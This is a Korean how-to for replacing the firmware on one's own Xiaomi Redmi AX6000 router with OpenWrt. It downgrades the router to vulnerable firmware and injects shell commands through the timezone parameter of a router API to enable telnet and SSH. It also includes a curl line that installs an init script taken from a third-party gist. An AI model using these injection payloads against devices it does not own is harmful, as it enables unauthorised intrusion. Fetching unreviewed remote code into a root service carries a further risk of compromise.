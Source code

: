 # 홈클라우드 관리하기

# Resources 
> https://openwrt.org/toh/xiaomi/redmi_ax6000

> https://github.com/openwrt/openwrt/pull/11115

# 목표
원래 레드미 펌으로 돌아올 수 있게, Stock Layout 으로 설치함

## 환경
윈도우 10 혹은 11, 추가 기능으로 Telnet을 설치해야 합니다.

## 과정
> 과정은 [링크](https://openwrt.org/toh/xiaomi/redmi_ax6000)에 나와있습니다.
> Arc 님의 [동영상](https://www.youtube.com/watch?v=FI54Evj1HzQ) 자료도 있습니다.

**모든 과정은 해당 공유기에 연결된 기기에서 진행해야 합니다.** 

1. 취약점이 있는 펌웨어 버전을 [다운로드](https://cdn.cnbj1.fds.api.mi-img.com/xiaoqiang/rom/rb06/miwifi_rb06_firmware_847e9_1.0.48.bin) 해줍니다.
2. 해당 버전으로 다운그레이드 해줍니다. (다운그레이드 경고가 나오는데 주소창에서 파라미터를 1에서 2로 수동으로 변경해줘야 합니다.)
3. 재접속하고 토큰값을 얻어서 저장합니다.
```
http://192.168.31.1/cgi-bin/luci/;stok=b0b87a703bca3e945e7c17617c2110ad/web/setting/upgrade
위와 같은 주소라면 b0b87a703bca3e945e7c17617c2110ad 입니다.
```
4. 이제 기기를 루팅해야 합니다. dev/debug 모드로 진입합니다. 진입하는 방법은 아래 링크로 요청하면 되는데, {token}을 바꿔줘야 합니다.
```
http://192.168.31.1/cgi-bin/luci/;stok={token}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20echo%20pVoAAA%3D%3D%20%7C%20base64%20-d%20%7C%20mtd%20write%20-%20crash%20%3B%20

토큰이 b0b87a703bca3e945e7c17617c2110ad 인 경우
http://192.168.31.1/cgi-bin/luci/;stok=b0b87a703bca3e945e7c17617c2110ad/api/misystem/set_sys_time?timezone=%20%27%20%3B%20echo%20pVoAAA%3D%3D%20%7C%20base64%20-d%20%7C%20mtd%20write%20-%20crash%20%3B%20
```
아래와 같은 json 응답을 얻으면 됩니다.
```
{
"code": 0
}
```
5. 재부팅 요청을 넣습니다. 마찬가지로 토큰값을 바꿔주면 됩니다.
```
http://192.168.31.1/cgi-bin/luci/;stok={token}/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20

http://192.168.31.1/cgi-bin/luci/;stok=b0b87a703bca3e945e7c17617c2110ad/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
```
6. 재부팅이 완료되면, 아래 명령어를 마찬가지로 토큰값을 바꿔 넣어줍니다.
**재부팅 시 토큰값이 달라집니다!**
```
http://192.168.31.1/cgi-bin/luci/;stok={token}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20bdata%20set%20telnet_en%3D1%20%3B%20bdata%20set%20ssh_en%3D1%20%3B%20bdata%20commit%20%3B%20
http://192.168.31.1/cgi-bin/luci/;stok={token}/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20

토큰값이 b0b87a703bca3e945e7c17617c2110ad 이라면...
http://192.168.31.1/cgi-bin/luci/;stok=ca4e0aa091baae02b32750405e202c1a/api/misystem/set_sys_time?timezone=%20%27%20%3B%20bdata%20set%20telnet_en%3D1%20%3B%20bdata%20set%20ssh_en%3D1%20%3B%20bdata%20commit%20%3B%20
http://192.168.31.1/cgi-bin/luci/;stok=ca4e0aa091baae02b32750405e202c1a/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
```

7. 이제 개발/디버그 모드에서 필요한 처리는 완료되었으므로 개발/디버그 모드를 종료합니다.
**재부팅 시 토큰값이 달라집니다!**
```
http://192.168.31.1/cgi-bin/luci/;stok={token}/api/misystem/set_sys_time?timezone=%20%27%20%3b%20mtd%20erase%20crash%20%3b%20

ea35cc66a60b0def7227cd3f890989a1
```
8. SSH 접속을 허용하기 위해 텔넷으로 공유기에 접속해줍니다.
9. SSH 접속을 불가하게 만드는 라인을 `/etc/init.d/dropbear`에서 삭제합니다.
지워야 하는 라인은 아래와 같습니다.
```
if [ "$flg_ssh" != "1" -o "$channel" = "release" ]; then        
  return 0                                                           
fi
```

vi로 수동으로 삭제하거나, 아래 라인을 입력해서 원본을 지우고 네트워크에서 가져와 넣어주면 됩니다.
```
cd /etc/init.d/ && rm -rf dropbear && curl https://gist.githubusercontent.com/AmirulAndalib/4046f133f66b100d9bf2156dfd84afe8/raw/dropbear >> dropbear && chmod +x dropbear && cd ~
```

10. `/etc/init.d/dropbear start` 으로 데몬을 실행시킵니다.
11. root 계정의 비밀번호를 설정해줘야 SSH 연결이 가능해집니다. `passwd` 명령어로 비밀번호를 설정해주세요. 
11. 인스톨할 파일을 미리 복사해둡시다. 먼저 이미지를 다운받습니다.
    https://firmware-selector.openwrt.org/ 에서 ax6000 검색해서 다운받으면 됩니다.
    **stock layout으로 검색해야 합니다.**
    INITRAMFS-FACTORY.UBI, SYSUPGRADE 모두 다운받으면 됩니다.
12. 해당 파일을 다운로드 받은 곳에서 cmd나 powershell 등을 열어서 `scp` 명령어로 복사해줍니다.
아래 명령어에서 버전만 바꿔주면 됩니다.
```
scp ./openwrt-{version}-mediatek-filogic-xiaomi_redmi-router-ax6000-stock-initramfs-factory.ubi root@192.168.31.1:/tmp
scp {복사할파일} {대상:/경로}

저는 23.05.4 를 이용했습니다.
scp ./openwrt-23.05.4-mediatek-filogic-xiaomi_redmi-router-ax6000-stock-initramfs-factory.ubi root@192.168.31.1:/tmp
```
잘 되었다면 이렇게 나와야 합니다.
```
PS C:\Users\jh\Downloads> scp ./openwrt-23.05.4-mediatek-filogic-xiaomi_redmi-router-ax6000-stock-initramfs-factory.ubi root@192.168.31.1:/tmp
root@192.168.31.1's password:
openwrt-23.05.4-mediatek-filogic-xiaomi_redmi-router-ax6000-stock-initramfs-factory.ubi 100% 8320KB   9.6MB/s   00:00
```

12. 이제 OpenWRT를 설치할건데, `cat /proc/cmdline` 으로 현재 스톡 시스템을 확인해줍니다.
이건 매번 다르게 나올 수 있습니다. 중요한 건 firmware 값이 0이냐 1이냐 입니다.
```
root@XiaoQiang:~# cat /proc/cmdline
console=ttyS0,115200n1 loglevel=8 firmware=1 factory_mode=1 uart_en=1
```
펌웨어 값이 0인 경우: 현재 시스템이 `ubi0`입니다.
펌웨어 값이 1인 경우: 현재 시스템이 `ubi1`입니다.

12. 펌웨어 값에 따라 설치를 위해 nvram을 다르게 세팅해줍니다.
```
# if firmware == 1, use this
nvram set boot_wait=on
nvram set uart_en=1
nvram set flag_boot_rootfs=0
nvram set flag_last_success=0
nvram set flag_boot_success=1
nvram set flag_try_sys1_failed=0
nvram set flag_try_sys2_failed=0
nvram commit
```

```
# if firmware == 0, use this
nvram set boot_wait=on
nvram set uart_en=1
nvram set flag_boot_rootfs=1
nvram set flag_last_success=1
nvram set flag_boot_success=1
nvram set flag_try_sys1_failed=0
nvram set flag_try_sys2_failed=0
nvram commit
```

13. 펌웨어에 따라 플래싱 명령어를 입력해줍니다.
```
FIRMWARE 1인 경우, 아래 라인에서 SCP로 복사해온 파일 버전에 맞게 바꿔주세요.
ubiformat /dev/mtd8 -y -f /tmp/openwrt-{version}-mediatek-filogic-xiaomi_redmi-router-ax6000-stock-initramfs-factory.ubi

예시
ubiformat /dev/mtd8 -y -f /tmp/openwrt-23.05.4-mediatek-filogic-xiaomi_redmi-router-ax6000-stock-initramfs-factory.ubi

FIRMWARE 0인 경우, 아래 라인에서 SCP로 복사해온 파일 버전에 맞게 바꿔주세요.
ubiformat /dev/mtd9 -y -f /tmp/openwrt-{version}-mediatek-filogic-xiaomi_redmi-router-ax6000-stock-initramfs-factory.ubi
```

플래싱이 진행되고 아래와 같은 라인을 보면 성공입니다.
```
root@XiaoQiang:/tmp# ubiformat /dev/mtd8 -y -f /tmp/openwrt-23.05.4-mediatek-filogic-xiaomi_redmi-router-ax6000-stock-initramfs-factory.ubi
ubiformat: mtd8 (nand), size 31457280 bytes (30.0 MiB), 240 eraseblocks of 131072 bytes (128.0 KiB), min. I/O size 2048 bytes
libscan: scanning eraseblock 239 -- 100 % complete
ubiformat: 240 eraseblocks have valid erase counter, mean value is 0
ubiformat: flashing eraseblock 64 -- 100 % complete
ubiformat: formatting eraseblock 239 -- 100 % complete
```
14. 공유기를 재부팅시킵니다. 텔넷연결에서 reboot 해주시면 됩니다.
15. 환경변수를 설정해줍니다.
16. SYSUPGRADE를 플래싱 해줍니다.
```
sysupgrade -n /tmp/openwrt-{version}-mediatek-filogic-xiaomi_redmi-router-ax6000-stock-squashfs-sysupgrade.bin
sysupgrade -n /tmp/openwrt-23.05.4-mediatek-filogic-xiaomi_redmi-router-ax6000-stock-squashfs-sysupgrade.bin
```
